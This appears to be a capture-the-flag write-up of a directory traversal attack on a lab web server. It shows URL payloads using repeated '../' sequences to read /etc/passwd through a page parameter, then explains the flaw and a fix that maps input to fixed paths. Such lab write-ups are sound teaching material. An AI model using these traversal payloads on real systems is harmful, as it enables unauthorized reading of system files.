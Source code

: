 When trying to access the page http://192.168.1.32/?page=/etc/passwd, the website send an alert saying:
"Wrong.."

We can try to access in previous directory using "../"

This way, when trying with multiple "previous directory" instructions http://192.168.1.32/?page=../../../etc/passwd
The website send "Nope.." this time.

So we tried with many more http://192.168.1.32/?page=../../../../../../../etc/passwd
And the website sent "Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0"

A directory traversal (or path traversal) attack exploits insufficient security validation or sanitization of user-supplied file names, such that characters representing "traverse to parent directory" are passed through to the operating system's file system API. An affected application can be exploited to gain unauthorized access to the file system.

To fix this vulnerability, use a Secure File Access Methods to avoid directly using user-supplied input in file system paths. Instead, map user inputs to a predefined set of file paths stored securely on the server. This way, even if a user attempts to perform directory traversal, they will not be able to access unauthorized files because the input is mapped to safe, predetermined file locations.